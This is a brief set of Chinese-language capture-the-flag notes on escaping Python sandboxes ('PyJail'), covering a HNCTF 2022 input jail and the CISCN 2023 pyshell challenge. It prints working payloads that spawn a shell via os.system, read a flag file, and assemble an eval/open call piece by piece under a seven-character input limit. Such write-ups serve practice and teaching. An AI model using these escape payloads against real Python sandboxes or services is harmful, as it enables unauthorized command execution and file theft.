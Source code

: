 ```yaml
---
title: Python沙盒逃逸做题笔记
date: 2023-10-21 13:32:11
tags: PyJail
mathjax: true
---
```


# Python沙盒逃逸做题笔记

## [HNCTF 2022 Week1]python2 input(JAIL)

### 法一

payload1：

```python
__import__('os').system('sh')
```

### 法二

payload2：

```python
__builtins__.__import__('os').system('cat ./flag')
```

## [CISCN 2023 初赛]pyshell

>`-`：返回上一次运行语句的结果，可以进行字符串拼接。

输入长度不大于$7$。

### 法一

总payload：

```python
eval(open("/flag","r").read())
```

依次输入：

```python
"open"
_+'("/'
_+'fla'
_+'g"'
-+',"r'
_+'")'
_+'.'
_+'rea'
_+'d()'
eval(_)
```
